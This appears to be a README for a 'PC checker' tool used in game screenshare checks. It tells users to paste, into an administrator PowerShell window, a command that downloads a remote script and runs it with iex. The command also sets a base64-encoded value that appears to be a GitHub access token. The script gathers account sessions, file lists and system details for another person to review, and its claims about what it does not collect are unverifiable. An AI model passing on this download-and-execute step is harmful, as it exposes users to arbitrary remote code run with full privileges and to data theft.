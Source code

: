 # Pc-Checker-Main

**Step 1) **

Open windows powershell as an administrator by:

1- pressing the search bar in your taskbar

2- typing "windows Powershell" in the taskbar

3- Right click on windows powershell

4- Press Run as Administrator

**Step 2) **

Put the Powershell script into the text area.

1- Locate where is says "PS C:\WINDOWS\system32>" 

2- After the > Paste the following: "$t="Z2l0aHViX3BhdF8xMUJMQjMzVVEwbkVzOHhJeVBpUnpoX2g3RUhSaTB0YkN5cWphV1lOTFBXWWE4WkZSb1RxeU5JSG1CcjU5UVRQV3ZGSzVSRUNCQVFpWTJVT05w"; iwr -useb https://raw.githubusercontent.com/suprsor/Pc-Checker-Main/refs/heads/main/SuprsorsPcCheck.ps1 | iex"

3- Press enter.

**Step 3) **

Pc check proccess

1- The script opens a browser, opens tabs corresponding to how many accounts you've ever signed into on your computer since last factory reset.

2- Show all account in screenshare to person pc checking you

3- Wait for the script to find all .exe, and .rar files that are suspicious.

4- It will say "Scan completed" there will now be a file copied in your Copy clipboard.

5- Go to dms with person pc checking you and paste whatever is in your copied clipboard

6- Send the file and the person pc checking you will review all suspicious files.

__What the script provides:__

- All Ubisoft User IDS, no passwords are  given in logfile. 

- All .exe .rar files you have

- Windows installation date

- Suspicous files

- Different browsers installed


__What it doesn't provide__

- Direct access to your computer

- And passwords/emails

- Any Ip addresses/personal information

- NO login information
